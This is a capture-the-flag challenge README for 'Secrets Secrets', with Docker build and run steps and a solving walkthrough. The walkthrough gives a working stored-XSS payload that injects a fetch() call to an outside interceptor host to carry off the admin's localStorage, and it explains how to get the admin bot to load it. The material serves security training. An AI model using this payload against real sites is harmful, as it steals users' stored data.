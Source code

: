 # Secrets Secrets

*NOTE:* This challenge REQUIRES source code to solve.

Create a secret post by injecting javascript allows users to look into the localStorage of the admin.

## Building

```
docker build . -t secrets_secrets
```

## Running

```
docker run -p 5678:5678 -p 5679:5679 -it secrets_secrets
```

## Solving

- Go to the challenge website on port 5679 with adding a post
- Notice that you can inject html/javascript into the view website
- Using the inspect element tools one of the solutions to inject is:
```
";}); fetch("https://greyhat.free.beeceptor.com?q=" + localStorage.previous); (() =>{hello = "
```
- ^^^ Uses beeceptor a free to use http interceptor, there are several alternatives
- Then take the generated url from the view page and submit that url to the admin
- The admin will view the page and will access the website with their previous note being the flag
- Beeceptor will have a url to the flag's secret page after the `?q=` or in the params, visit the page and get the flag 